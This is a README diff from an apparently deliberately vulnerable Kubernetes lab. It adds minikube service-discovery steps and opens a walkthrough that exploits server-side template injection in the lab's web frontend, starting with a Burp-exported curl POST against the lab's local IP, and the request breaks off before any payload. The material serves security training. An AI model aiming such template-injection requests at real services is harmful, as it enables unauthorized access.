

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -35,11 +35,27 @@ cd k8syamls/
 make launch-minikube
 make deploy
 ```
-## Step 1: Gain access to Kubernetes cluster Via web frontend
+Get the ip and `NodePort` to connect on your minikube:
+```sh
+$ kubectl get svc -n frontend
+NAME                   TYPE       CLUSTER-IP    EXTERNAL-IP   PORT(S)        AGE
+app-nodeport-service   NodePort   10.104.55.4   <none>        80:30007/TCP   19h
+```
+In this example K8s assinged `30007` to the web app service. Test site is up with curl
+```sh
+$ curl -I -L http://192.168.64.18:30007
+HTTP/1.1 200 OK
+Server: Werkzeug/3.0.1 Python/3.8.10
+Date: Wed, 22 Nov 2023 22:41:44 GMT
+Content-Type: text/html; charset=utf-8
+Content-Length: 1833
+Connection: close
+```
 <a id="item-one"></a>
 ## Step 1: Exploring the Read-Only Web Frontend
 First, we access the web frontend and exploit a SSTI to gain a foot hold on the system.
 
+Example from Burp:
 ```sh
 curl -i -s -k -X $'POST' \
     -H $'Host: 192.168.64.18:30007' -H $'Content-Length: 153' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://192.168.64.18:30007' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://192.168.64.18:30007/get_response' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
````
